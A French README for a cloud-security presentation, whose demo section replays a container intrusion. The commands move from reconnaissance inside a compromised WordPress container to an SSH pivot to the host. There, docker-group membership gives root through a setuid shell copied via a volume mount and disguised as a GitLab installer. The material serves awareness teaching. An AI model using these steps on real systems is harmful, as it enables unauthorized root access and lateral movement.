 # fr-commission-securite-cloud
FR - Supports de présentation en français pour la commission sécurité &amp; cloud, Telecom-Valley

## Diaporama de présentation

Document unique : [Commission sécurité cloud.pdf](https://github.com/ledroide/fr-commission-securite-cloud/Commission%20s%C3%A9curit%C3%A9%20cloud.pdf)

## Sources et documentation

Les études et documents cités sont sur [presentations/sources](https://drive.google.com/open?id=1P9nut3-c6ZVQW_wc_Klq0owCwjO4A8zG)

## Démonstrations

Revoir d'abord la démonstration d'intrusion par plugin de reverse-shell dans Wordpress par Laurent Gomez a la conference [Le Cloud, nouveau fort de Vauban, SophiaConf 2015](https://youtu.be/r-ZUCnhM3eE).

Puis les commandes exécutées :

```bash
~ $ docker exec mysql-wp ps auxwww 
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
mysql        1  0.0  1.2 1270632 201020 ?      Ssl  09:46   0:01 mysqld
root        63  0.0  0.0  17504  2048 ?        Rs   10:36   0:00 ps auxwww

root@eb78198a1832:/# ls /sys/devices/

root@5b93404b19fd:/var/www/html# cat /proc/net/arp 
IP address       HW type     Flags       HW address            Mask     Device
10.32.0.2        0x1         0x2         02:42:0a:20:00:02     *        eth0
10.32.0.1        0x1         0x2         02:42:d5:c5:5d:39     *        eth0
root@5b93404b19fd:/var/www/html# hostname -I
10.32.0.4

root@eb78198a1832:/# cat /proc/net/fib_trie
           +-- 10.32.0.0/29 2 0 2
Hosts/Net: 6

root@5b93404b19fd:/var/www/html# egrep ^10 /etc/hosts
10.32.0.2       mysql fabe9f6fd32c mysql-wp
10.32.0.4       5b93404b19fd

root@eb78198a1832:/# ssh -l ecisse 10.32.0.1
ecisse@10.32.0.1's password: 
Welcome to Ubuntu 17.10 (GNU/Linux 4.13.0-21-generic x86_64)

ecisse@D20854-Gailuron:~$ id
uid=1002(ecisse) gid=1002(ecisse) groups=1002(ecisse),999(docker)
ecisse@D20854-Gailuron:~$ sudo -l
[sudo] password for ecisse: 
Sorry, user ecisse may not run sudo on D20854-Gailuron.
ecisse@D20854-Gailuron:~$ docker ps
CONTAINER ID        IMAGE                    COMMAND             CREATED             STATUS              PORTS               NAMES
eb78198a1832        rastasheep/ubuntu-sshd   "bash"              15 minutes ago      Up 15 minutes       22/tcp              confident_panini

~ $ mkdir -p Downloads/install/gitlab

~ $ docker run -ti --rm -v $HOME/Downloads/install/gitlab:/toto debian:wheezy bash
root@dada2cc8a000:/#
root@dada2cc8a000:/# cp /bin/sh /toto/gitlab-ci.install.bin
root@dada2cc8a000:/# chmod a+s /toto/gitlab-ci.install.bin
root@dada2cc8a000:/# exit
jujube@D20854-Gailuron:~$ ./Downloads/install/gitlab/gitlab-ci.install.bin 
# id -un
root
# 
```
